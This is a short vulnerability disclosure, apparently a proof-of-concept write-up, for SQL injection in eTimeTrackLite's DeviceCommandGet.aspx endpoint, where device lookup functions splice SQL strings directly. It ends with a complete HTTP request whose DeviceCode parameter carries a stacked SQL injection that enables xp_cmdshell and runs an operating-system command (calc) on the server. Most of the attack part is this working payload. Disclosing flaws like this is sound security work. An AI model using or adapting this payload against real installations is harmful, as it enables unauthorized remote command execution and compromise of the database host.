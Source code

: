 eTimeTrackLiteLibrary.Manage.DeviceManagement.GetDeviceTransactionStampAndOpStampAndTimeZoneBySerialNumber(string, ref string, ref string, ref string, ref string, ref ErrorObj) : void @060009F9

It is also directly splicing SQL statements

![image-20250516114533862](eTimeTrackLite/image-20250516114533862.png)

In addition, the UpdateDeviceLastPingBySerialNumber function can also be called through DeviceCommandGet.Page_Load(object, EventArgs): void @060003CC

![image-20250516142312660](eTimeTrackLite/image-20250516142312660.png)

poc

```http
GET /DeviceCommandGet.aspx?DeviceCode=111';EXEC+sp_configure+'show+advanced+options',+1;RECONFIGURE;EXEC+sp_configure+'xp_cmdshell',+1;RECONFIGURE;EXEC+xp_cmdshell+'cmd+/c+calc';--+ HTTP/1.1
Host: 192.168.1.222:83
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Connection: keep-alive


```
